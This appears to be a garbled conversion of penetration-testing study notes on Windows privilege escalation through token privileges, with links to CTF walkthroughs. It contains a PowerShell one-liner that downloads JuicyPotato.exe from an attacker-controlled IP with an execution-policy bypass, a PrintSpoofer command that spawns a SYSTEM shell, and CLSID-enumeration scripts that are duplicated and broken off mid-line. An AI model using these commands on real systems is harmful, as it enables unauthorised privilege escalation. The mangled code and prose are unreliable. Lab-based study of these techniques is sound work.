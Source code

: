 -   Create this script to show clsid :

-   ![image](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image41.png){width="6.5in"
    > height="2.0694444444444446in"}

> \$ New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT
> \| Out-Null \$ \$CLSID = Get-ItemProperty HKCR:\\clsid\* \|
> select-object AppID,@{N=\'CLSID\'; E={\$*.pschildname}} \|
> where-object \$ {\$*.appid -ne \$null} \$foreach(\$a in

{ \$ Write-Host

}

-   or follow it
    > [[https://medium.com/@kunalpatel920/cyberseclabs-weak-walkthrough-d66d2e47cd82]{.underline}](https://medium.com/@kunalpatel920/cyberseclabs-weak-walkthrough-d66d2e47cd82)
    > ,
    > [[https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html]{.underline}](https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html)

**.\\PrintSpoofer64.exe -i -c cmd**

**[[https://juggernaut-sec.com/seimpersonateprivilege/#Abusing_SeImpersonatePrivilege_JuciyPotatoexe]{.underline}](https://juggernaut-sec.com/seimpersonateprivilege/#Abusing_SeImpersonatePrivilege_JuciyPotatoexe)**

## SeLoadDriverPrivilege

[[https://0xdf.gitlab.io/2020/10/31/htb-fuse.html#priv-svc-print\--system]{.underline}](https://0xdf.gitlab.io/2020/10/31/htb-fuse.html#priv-svc-print--system)

## SeBackUpPrivilege

https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#shell-as-svc_backup

## 

## 

## SeImpersonatePrivilege 

If **SeImpersonatePrivilege is enabled yes can explicit that**

powershell \"IEX(New-Object
Net.WebClient).downloadFile(\'http://192.168.119.161:8000/JuicyPotato.exe\',\'C:\\test\\JuicyPotato.exe\')\"
-bypass executionpolicy

Create this script to show clsid

New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT \|
Out-Null

\$CLSID = Get-ItemProperty HKCR:\\clsid\\\* \| select-object
AppID,@{N=\'CLSID\'; E={\$\_.pschildname}} \| where-object
